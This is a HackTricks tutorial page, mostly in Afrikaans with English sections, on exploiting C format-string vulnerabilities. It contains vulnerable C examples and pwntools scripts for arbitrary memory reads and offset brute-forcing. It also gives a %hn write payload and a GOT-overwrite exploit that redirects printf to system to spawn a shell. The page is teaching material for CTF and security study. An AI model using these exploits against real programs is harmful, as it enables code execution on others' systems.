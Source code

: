 # Formaat Strings

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en om die onhackbare te hack - **ons is op soek na mense!** (_vloeiend in geskryf en gesproke Pools vereis_).

{% embed url="https://www.stmcyber.com/careers" %}


## Basiese Inligting

In C **`printf`** is 'n funksie wat gebruik kan word om 'n **string** te **druk**. Die **eerste parameter** wat hierdie funksie verwag is die **rou teks met die formaatters**. Die **volgende parameters** wat verwag word is die **waardes** om die **formaatters** van die rou teks te **vervang**.

Ander kwesbare funksies is **`sprintf()`** en **`fprintf()`**.

Die kwesbaarheid verskyn wanneer 'n **aanvallers teks as die eerste argument** aan hierdie funksie gebruik word. Die aanvaller sal in staat wees om 'n **spesiale invoer te vervaardig wat** die **printf formaat** string vermoëns misbruik om enige data in enige adres (leesbaar/skryfbaar) te lees en **te skryf**. Op hierdie manier in staat om **arbitraire kode uit te voer**.

#### Formaatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Voorbeelde:**

* Kwetsbare voorbeeld:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normale Gebruik:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Met Ontbrekende Argumente:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf kwesbaar:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Toegang tot Pointers**

Die formaat **`%<n>$x`**, waar `n` 'n nommer is, laat toe om aan printf aan te dui om die n parameter (van die stapel) te kies. So as jy die 4de parameter van die stapel met printf wil lees, kan jy doen:
```c
printf("%x %x %x %x")
```
en jy sou van die eerste tot die vierde parameter lees.

Of jy kan doen:
```c
printf("%4$x")
```
en lees direk die vierde.

Let op dat die aanvaller die `printf` **parameter beheer, wat basies beteken dat** sy invoer in die stapel gaan wees wanneer `printf` aangeroep word, wat beteken dat hy spesifieke geheue adresse in die stapel kan skryf.

{% hint style="danger" %}
'n Aanvaller wat hierdie invoer beheer, sal in staat wees om **arbitraire adresse in die stapel by te voeg en `printf` te laat toegang tot hulle**. In die volgende afdeling sal verduidelik word hoe om hierdie gedrag te gebruik.
{% endhint %}

## **Arbitraire Lees**

Dit is moontlik om die formatter **`%n$s`** te gebruik om **`printf`** die **adres** wat in die **n posisie** geleë is, te laat kry, wat volg en **dit asof dit 'n string is te druk** (druk totdat 'n 0x00 gevind word). So as die basisadres van die binêre **`0x8048000`** is, en ons weet dat die gebruiker se invoer in die 4de posisie in die stapel begin, is dit moontlik om die begin van die binêre te druk met:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Let daarop dat jy nie die adres 0x8048000 aan die begin van die invoer kan plaas nie, omdat die string in 0x00 aan die einde van daardie adres sal wees.
{% endhint %}

### Vind offset

Om die offset na jou invoer te vind, kan jy 4 of 8 bytes (`0x41414141`) stuur, gevolg deur **`%1$x`** en **verhoog** die waarde totdat jy die `A's` ontvang.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Hoe nuttig

Arbitraire lees kan nuttig wees om:

* **Dump** die **binarie** uit geheue
* **Toegang te verkry tot spesifieke dele van geheue waar sensitiewe** **inligting** gestoor word (soos kanaries, versleuteling sleutels of paswoorde soos in hierdie [**CTF-uitdaging**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbitraire Skrywe**

Die formatter **`%<num>$n`** **skryf** die **aantal geskryfde bytes** in die **aangegeven adres** in die \<num> parameter in die stapel. As 'n aanvaller soveel karakters kan skryf as wat hy wil met printf, sal hy in staat wees om **`%<num>$n`** 'n arbitraire getal in 'n arbitraire adres te laat skryf.

Gelukkig, om die getal 9999 te skryf, is dit nie nodig om 9999 "A"s by die invoer te voeg nie; om dit te doen, is dit moontlik om die formatter **`%.<num-write>%<num>$n`** te gebruik om die getal **`<num-write>`** in die **adres aangedui deur die `num` posisie** te skryf.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
However, note that usually in order to write an address such as `0x08049724` (which is a HUGE number to write at once), **it's used `$hn`** instead of `$n`. This allows to **only write 2 Bytes**. Therefore this operation is done twice, one for the highest 2B of the address and another time for the lowest ones.

Therefore, this vulnerability allows to **write anything in any address (arbitrary write).**

In this example, the goal is going to be to **overwrite** the **address** of a **function** in the **GOT** table that is going to be called later. Although this could abuse other arbitrary write to exec techniques:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

We are going to **overwrite** a **function** that **receives** its **arguments** from the **user** and **point** it to the **`system`** **function**.\
As mentioned, to write the address, usually 2 steps are needed: You **first writes 2Bytes** of the address and then the other 2. To do so **`$hn`** is used.

* **HOB** is called to the 2 higher bytes of the address
* **LOB** is called to the 2 lower bytes of the address

Then, because of how format string works you need to **write first the smallest** of \[HOB, LOB] and then the other one.

If HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

If HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools-sjabloon

Jy kan 'n **sjabloon** vind om 'n exploit voor te berei vir hierdie soort kwesbaarheid in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Of hierdie basiese voorbeeld van [**hier**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Formaat Strings na BOF

Dit is moontlik om die skryf aksies van 'n formaat string kwesbaarheid te misbruik om **in adresse van die stapel te skryf** en 'n **buffer overflow** tipe kwesbaarheid te ontgin.

## Ander Voorbeelde & Verwysings

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, geen relro, geen canary, nx, geen pie, basiese gebruik van formaat strings om die vlag van die stapel te lek (geen behoefte om die uitvoeringsvloei te verander)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, geen canary, nx, geen pie, formaat string om die adres `fflush` met die win funksie te oorskryf (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, geen canary, nx, geen pie, formaat string om 'n adres binne main in `.fini_array` te skryf (sodat die vloei een keer meer terugloop) en die adres na `system` in die GOT tabel te skryf wat na `strlen` wys. Wanneer die vloei terug na main gaan, word `strlen` uitgevoer met gebruikersinvoer en wys na `system`, dit sal die oorgedraagde opdragte uitvoer.

<figure><img src="/.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking loopbaan** en die onhackable te hack - **ons huur!** (_vloeiend Pools geskryf en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
